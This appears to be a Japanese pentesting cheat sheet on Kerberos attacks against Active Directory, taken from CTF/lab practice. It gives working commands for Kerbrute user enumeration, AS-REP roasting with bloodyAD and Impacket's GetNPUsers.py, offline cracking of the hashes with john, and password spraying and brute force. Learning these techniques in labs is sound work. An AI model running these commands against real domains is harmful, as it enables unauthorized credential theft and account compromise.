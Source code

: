 ## ## Kerberos事前認証の悪用
Kerbruteは、Keruberos事前認証を悪用して有効なADユーザをブルートフォースで列挙するためのツール。
※hostsの登録が必要

### ### Kerbruteインストール
[https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases
↑から自分のKaliのアーキテクチャに合ったやつをダウンロード。

1. ダウンロードしたファイルの名前を変更する。
```sh
mv ./kerbrute_linux_amd64 ./kerbrute
```

2. Kerberusを使用したユーザの列挙
```sh
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```
※syntaxエラーが出るときは、/etc/hostsがミスってるかも

- 豆知識
	-t：threadを設定できる。(デフォルト:10)
	-v：エラーが表示される。
	-d：ドメイン指定 ※必須
	--dc：ドメインコントローラ指定 ※必須

---
## ## AS-REP Roast
Kerberos事前認証(PREAUTH)が必要な属性を持たないユーザを標的とするセキュリティ攻撃。
この脆弱性は、攻撃者はユーザのパスワードを必要とせず、ドメコン(DC)からユーザの認証をリクエストできる。
その後DCは、ユーザのパスワード由来のキーで暗号化されたメッセージで応答し、攻撃者はオフラインでそのユーザのパスワードを特定するために、クラックをこころみることができる。

### ### この攻撃の主な要件は以下の通り。

1. Kerberos事前認証の不足:標的ユーザはこのセキュリティ機能が有効になっていない必要がある。

2. ドメインコントローラ(DC)への接続:攻撃者はリクエストを送信し、暗号化されたメッセージを受信するためにDCへのアクセスが必要。

3. オプションのドメインアカウント:ドメインアカウントを持っていると、LDAPクエリを使用して脆弱なユーザを効率的に特定できる。このようなアカウントがない場合、攻撃者はユーザ名を推測する必要がある。

※参照
[HackTrick](https://book.hacktricks.xyz/v/jp/windows-hardening/active-directory-methodology/asreproast)

### ### 手順
#### #### 1. ユーザ名を取得する必要がある。
1.1. ドメインの資格情報がある場合
```sh
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```

1.2. ドメインの資格情報がない場合
Forestというマシンでは、enum4linux-ngでユーザ名を手に入れることが出来た。

#### #### 2. 手に入れたユーザ名をもとにパスワードを取得する。
hostsに登録しておく必要がある。

2.2. 以下の書式を行う。

```sh
python3 GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

▼使用例
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
```
<GetNPUsers.pyのダウンロードリンク>
[https://www.secureauth.com/labs/open-source-tools/impacket/](https://www.secureauth.com/labs/open-source-tools/impacket/)

#### #### 3. パスワードをクラックする。

```sh
john --wordlist=passwords_kerb.txt hashes.asreproast
```

- User名を列挙するか、総当たり攻撃で見つけ出す必要がある。
	- User名を列挙する場合は、空いているポートを確認しそこからユーザ名を列挙できる方法がないかを探す必要がある。
	- 総当たりの場合はwordlistを使用して探す必要がある。

## ## Kerbruteを使用するやり方(user列挙)
```sh
kerbrute userenum --dc 10.10.10.161 -d htb.local userlist.txt
```
---
## ## Password BruteForce
### ### kerbrute
基本的に単一ユーザでのブルートフォースはアカウントロックされるので推奨はしない。
代わりにパスワードスプレー攻撃をするのが良い。

- Password Spry attack
```sh
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.10.10] domain_users.txt Password123
```

- Brute Force
```sh
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.10.10] passwords.lst thoffman
```

---
